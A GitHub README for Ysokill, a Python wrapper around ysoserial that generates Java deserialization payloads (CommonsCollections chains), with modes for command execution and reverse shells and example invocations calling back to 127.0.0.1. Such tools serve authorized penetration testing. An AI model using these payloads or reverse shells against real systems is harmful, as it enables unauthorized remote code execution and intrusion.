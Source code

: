 <h1 align="center">
<br>☕ Ysokill ☕
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   Ysokill is a python script for generate all CommonsCollections payload's using the ysoserial.

![image](https://user-images.githubusercontent.com/80011252/195660401-b066c1dd-718f-4f0a-9c57-d9ee4f4fd44e.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/ysokill.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
   ```
2. Choose the mode
   ```sh
      1 - Object Command "H4sIAAAA"
      2 - Object Reverse Shell "H4sIAAAA"
      3 - Object Command "rO0ABXNy"
      4 - Object Reverse Shell "rO0ABXNy"
      5 - Binary Command
      6 - Binary Reverse Shell
   ```
3. Example: Modes 1 to 3
   ```py
   python3 main.py -m 1 -c 'curl https://127.0.0.1'
   ```
4. Example: Modes 3 to 4
   ```py
   python3 main.py -m 4 -l 127.0.0.1 -p 443
   ```

